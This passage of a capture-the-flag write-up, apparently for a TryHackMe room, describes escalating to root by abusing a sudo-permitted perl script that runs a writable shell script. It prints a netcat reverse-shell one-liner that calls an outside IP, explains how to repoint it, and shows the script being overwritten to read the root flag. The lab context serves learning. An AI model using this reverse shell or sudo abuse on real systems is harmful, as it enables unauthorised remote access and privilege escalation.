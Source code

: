 We had access to sudo perl and backup.pl file without password. Hmmmmm... What is backup.pl??

```diff
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

And what is copy.sh?

```diff
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.0.190 5554 >/tmp/f
```

Here, This is a traditional reverse-shell one-liner. The easy method would have been to replace 192.168.0.190 with our host IP and opening a netcat listener at port 5554 on out host machine, then running **sudo /usr/bin/perl /home/itguy/backup.pl**. And proceed further after gaining the shell. But, I probably complicated it by replacing the contents of copy.sh with
```diff
$ echo "cat /root/root.txt" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl                                                                        
THM{6637f41d0177b6f37cb20d775124699f}

```
But luckily the root.txt was in the location I predicted it to be so it made it simpler. That's it. We got both the user and root flags!!
